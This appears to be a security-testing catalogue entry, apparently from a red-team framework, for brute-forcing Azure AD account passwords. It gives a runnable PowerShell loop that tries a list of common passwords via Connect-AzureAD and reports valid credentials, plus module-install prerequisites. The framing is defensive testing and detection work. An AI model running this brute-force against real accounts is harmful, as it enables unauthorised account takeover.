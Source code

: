 **Supported Platforms:** Azure-ad


**auto_generated_guid:** 5a51ef57-299e-4d62-8e11-2d440df55e69





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Account to bruteforce. We encourage users running this atomic to add a valid microsoft account domain; for eg "bruce.wayne@<valid_ms_account.com>" | string | bruce.wayne@contoso.com|
| passwords | List of passwords we will attempt to brute force with | string | Password1`n1q2w3e4r`nPassword!|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD

$passwords = "#{passwords}".split("{`n}")
foreach($password in $passwords) {
  $PWord = ConvertTo-SecureString -String "$password" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
  try {
    Write-Host " [-] Attempting ${password} on account #{username}."
    Connect-AzureAD -Credential $Credential 2>&1> $null
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{username}:${password} are valid credentials!`r`n"
    break
  } catch {
    Write-Host " [-] #{username}:${password} invalid credentials.`r`n"
  }
}
Write-Host "End of bruteforce"
```




#### Dependencies:  Run with `powershell`!
##### Description: AzureAD module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureAD -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
```
